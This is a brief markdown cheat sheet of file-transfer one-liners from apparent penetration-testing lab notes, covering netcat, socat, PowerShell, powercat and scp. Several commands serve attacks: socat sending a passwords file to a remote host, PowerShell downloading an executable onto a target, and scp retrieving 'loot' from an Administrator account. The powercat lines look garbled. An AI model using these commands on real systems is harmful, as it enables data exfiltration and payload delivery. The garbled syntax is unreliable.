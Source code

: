 ```yaml
---
  title: "File transfering"
---
```


# Netcat
Server side
`nc -nlvp 4444 > incoming.exe`

Client side
`nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe`

# Socat
Server side
`socat TCP4-LISTEN:443,fork file:secret_passwords.txt`

Client side
`socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create`

# Powershell
Download on client side
`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"`

# Powercat
Server
`powercat -c IP -p PORT -i FILE.TXT`

Client
`powercat -c IP -p PORT -i C:\Users\Offsec\powercat.ps1`

# SCP
`scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2`

Example
`scp Administrator@10.10.216.187:/C:/Users/Administrator/Downloads/20211003055235_loot.zip loot.zip`
